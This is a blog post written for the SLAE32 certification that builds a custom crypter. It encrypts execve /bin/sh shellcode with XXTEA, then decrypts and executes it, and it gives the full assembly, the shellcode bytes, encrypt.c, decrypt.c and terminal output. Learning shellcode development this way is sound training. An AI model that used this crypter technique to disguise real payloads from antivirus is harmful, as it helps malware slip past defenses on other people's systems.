 ```yaml
---
title: "SLAE32: Creating custom crypter shellcode"
date: 2018-01-22 12:00:00 -0700
categories: [SLAE32]
tags: [assembly, x86, penetration-testing, hacking, exploit-development, shellcode, slae32]
---
```


### The blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)<br />
Student ID: SLAE-990

Assignment #7

---

## Description
* Create a custom crypter like the one shown in the “crypters” video
* Free to use any existing encryption schema
* Can use any programming language

## Choosing a symmetric encryption algorithm
For the encryption and decryption of the shellcode I have chosen to use the Corrected Block TEA (XXTEA) block cipher.  Further reading on this implementation can be found here => [XXTEA](https://en.wikipedia.org/wiki/XXTEA).

<img src="{{ site.url }}/assets/img/slae32/07-01.png"/><br/>
One round of XXTEA [(Source)](https://en.wikipedia.org/wiki/XXTEA)<br/>

As to not reimplement XXTEA itself I discovered a C implementation of the cipher on github at [XXTEA encryption arithmetic library](https://github.com/xxtea/xxtea-c). This implementation will allow me to encrypt the shellcode and emmit it in shellcode form.

## Shellcode to encrypt
I will be using some shellcode from earlier to spawn a simple /bin/sh.  The assembly to spawn this shell is:
```nasm
global _start			

section .text
_start:

	; PUSH the first null dword
	xor eax, eax
	push eax

	; PUSH //bin/sh (8 bytes)
	push 0x68732f2f
	push 0x6e69622f
	mov ebx, esp
	push eax
	mov edx, esp
	push ebx
	mov ecx, esp
	mov al, 11
	int 0x80
```

The generated shellcode from objdump that we will encrypt is:
```
[sengen@manjaro-x86 assignment7]$ objdump -d ./execve-stack|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

### Encrypting shellcode
For the encryption we will take the shellcode we generated above and hardcode it into our encrypt.c source code.  Utilizing the XXTEA algorithm we'll encrypt each byte and output it in shellcode format.

#### encrypt.c
```c
#include <stdio.h>
#include <string.h>
#include "xxtea.h"

int main(int argc, char* argv[]) {
    if (argc != 2) {
        printf("%s\n", "usage: ./encrypt <key>");
        exit(1);
    }

    unsigned char shellcode[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";
    size_t shellcode_len = strlen((const char *) shellcode);
    const char *key = argv[1];

    printf("%s\n", "Shellcode before encryption:");
    for (int counter = 0; counter < shellcode_len; ++counter) {
        printf("\\x%02x", shellcode[counter]);
    }

    size_t len;
    unsigned char *encrypt_data = xxtea_encrypt(shellcode, strlen(shellcode), key, &len);

    printf("\n\nEncrypted shellcode:\n");
    for (size_t counter = 0; counter < strlen(encrypt_data); counter += 2) {
        printf("\\x%02x\\x%02x", (int)encrypt_data[counter], (int)encrypt_data[counter+1]);
    }

    printf("\n");

    return 0;
}
```
#### Compiling and running the encrypt.c program
```
[sengen@manjaro-x86 assignment7]$ gcc -Wall encrypt.c xxtea.c xxtea.h -o encrypt
[sengen@manjaro-x86 assignment7]$ ./encrypt slae32-assembly-expert
Shellcode before encryption:
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80

Encrypted shellcode:
\x5b\x69\x1c\xed\x22\x51\x2c\xcc\x53\x92\x18\xa4\xed\x12\x31\xb2\x86\xe0\x05\xfe\x96\xd5\x71\xd5\x7e\x5b\xd6\x10\x2f\xe9\xf5\x9e
```

### Decrypting shellcode
Now we have an encrypted version of the shellcode.  We'll copy this out and place it into our decrypt.c program.  This does the opposite and performs the decryptions of each byte and again we'll print it to the screen.  Additionally, we'll now execute the shellcode which will spawn our /bin/sh.

```c
#include <stdio.h>
#include <string.h>
#include "xxtea.h"

int main(int argc, char* argv[]) {
    if (argc != 2) {
        printf("%s\n", "usage: ./decrypt <key>");
        exit(1);
    }

    unsigned char encrypted_data[] = "\x5b\x69\x1c\xed\x22\x51\x2c\xcc\x53\x92\x18\xa4\xed\x12\x31\xb2\x86\xe0\x05\xfe\x96\xd5\x71\xd5\x7e\x5b\xd6\x10\x2f\xe9\xf5\x9e";
    size_t encrypted_data_len = strlen((const char *) encrypted_data);
    const char *key = argv[1];

    printf("%s\n", "Shellcode before decryption:");
    for (int counter = 0; counter < encrypted_data_len; ++counter) {
        printf("\\x%02x", encrypted_data[counter]);
    }

    size_t len;
    unsigned char *decrypted_data = xxtea_decrypt(encrypted_data, encrypted_data_len, key, &len);

    printf("\n\nDecrypted shellcode:\n");
    for (size_t counter = 0; counter < strlen(decrypted_data); counter += 2) {
        printf("\\x%02x\\x%02x", (int)decrypted_data[counter], (int)decrypted_data[counter+1]);
    }

    printf("\n\nExecuting shellcode.");

    int (*ret)() = (int(*)())decrypted_data;
    ret();

    return 0;
}
```

#### Compiling and running the decrypt.c program
```
[sengen@manjaro-x86 assignment7]$ gcc -Wall decrypt.c xxtea.c xxtea.h -o decrypt
[sengen@manjaro-x86 assignment7]$ ./decrypt slae32-assembly-expert
Shellcode before decryption:
\x5b\x69\x1c\xed\x22\x51\x2c\xcc\x53\x92\x18\xa4\xed\x12\x31\xb2\x86\xe0\x05\xfe\x96\xd5\x71\xd5\x7e\x5b\xd6\x10\x2f\xe9\xf5\x9e

Decrypted shellcode:
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x00

sh-4.4$
```

### Source code
All source code for this assignment can be found at<br/>
 [https://github.com/tdmathison/SLAE32/tree/master/assignment7](https://github.com/tdmathison/SLAE32/tree/master/assignment7).
